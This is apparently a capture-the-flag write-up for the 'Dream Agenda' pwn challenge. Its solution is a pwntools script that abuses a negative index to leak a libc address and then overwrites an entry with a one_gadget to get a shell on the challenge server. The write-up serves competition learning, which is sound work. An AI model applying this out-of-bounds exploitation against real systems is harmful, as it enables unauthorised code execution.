


# Dream Agenda

### Description

- **Category**: Exploiting

Just a phone book. Just pwn it. 

```
nc ctf.h-c0n.com 60001
```

### Solution

```python
#!/usr/bin/env python
from pwn import *
context(arch='amd64', os='linux')

def main():
    elf= ELF('./dream_agenda')
    libc= ELF('./libc6_2.23-0ubuntu11_amd64.so')
    r=remote('ctf.h-c0n.com', 60001)
    printf_offset=libc.sym['printf']
    one_gadget_off=0x45216

    printf_leak=read64(r, '-15')
    libc_base=printf_leak-printf_offset
    one_gadget = libc_base + one_gadget_off
    log.info('one_gadget '+str(one_gadget))
    r.recvuntil('>> ')
    r.sendline('2')
    r.recvuntil('Type an index to edit: ')
    r.sendline('-15')
    r.recvuntil('Type a number: ')
    r.sendline(str(one_gadget))
    r.interactive()

def read64(r, offset):
    r.recvuntil('>> ')
    r.sendline('4')
    r.recvuntil('Type an index to show: ')
    r.sendline(offset)
    leak=int(r.recvline()[8:])
    log.info('Printf leak: '+str(leak))
    leak=p64(leak)
    return u64(leak)
if __name__ == '__main__':
    main()
```







